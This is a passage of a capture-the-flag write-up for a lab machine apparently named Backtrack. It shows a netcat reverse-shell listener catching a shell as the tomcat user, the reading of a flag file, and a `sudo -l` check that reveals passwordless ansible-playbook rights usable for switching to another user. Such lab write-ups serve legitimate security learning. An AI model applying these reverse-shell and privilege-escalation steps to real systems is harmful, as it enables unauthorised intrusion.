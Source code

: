 We set up our listener and connect to `http://10.10.71.124:8080/foo` :

```shell
$ rlwrap nc -lvnp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.71.124.
Ncat: Connection from 10.10.71.124:48934.
whoami
tomcat
```

We get our reverse shell, we [upgrade](https://0xffsec.com/handbook/shells/full-tty/) it and recover the first flag located inside the tomcat folder.

```shell
tomcat@Backtrack:~$ ls
ls
BUILDING.txt     NOTICE         RUNNING.txt  flag1.txt  temp
CONTRIBUTING.md  README.md      bin          lib        webapps
LICENSE          RELEASE-NOTES  conf         logs       work
tomcat@Backtrack:~$ cat flag1.txt
cat flag1.txt
THM{[REDACTED]}
```

## Switching User

As `tomcat` user, we need to know what we are able to do on the machine. Typing the `sudo -l` command is one way to know this :

```shell
tomcat@Backtrack:/opt/test_playbooks$ sudo -l
sudo -l
Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```

We realize that we can execute any ansible playbook located in the `/opt/test_playbooks/` folder, without password, as the user `wilbur`.

What are those playbooks ? There are **2** : `failed_login.yml` and `suspicious_ports.yml`.

```shell
tomcat@Backtrack:/opt/test_playbooks$ cat failed_login.yml
cat failed_login.yml
---
- name: Check for Failed Login Attempts
  hosts: localhost

  tasks:
    - name: Search for failed login attempts
      command: grep "Failed password" /var/log/auth.log
      register: failed_login_attempts
      ignore_errors: yes

    - name: Report failed login attempts
      debug:
        var: failed_login_attempts.stdout_lines
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
[WARNING]: Skipping plugin (/usr/lib/python3/dist-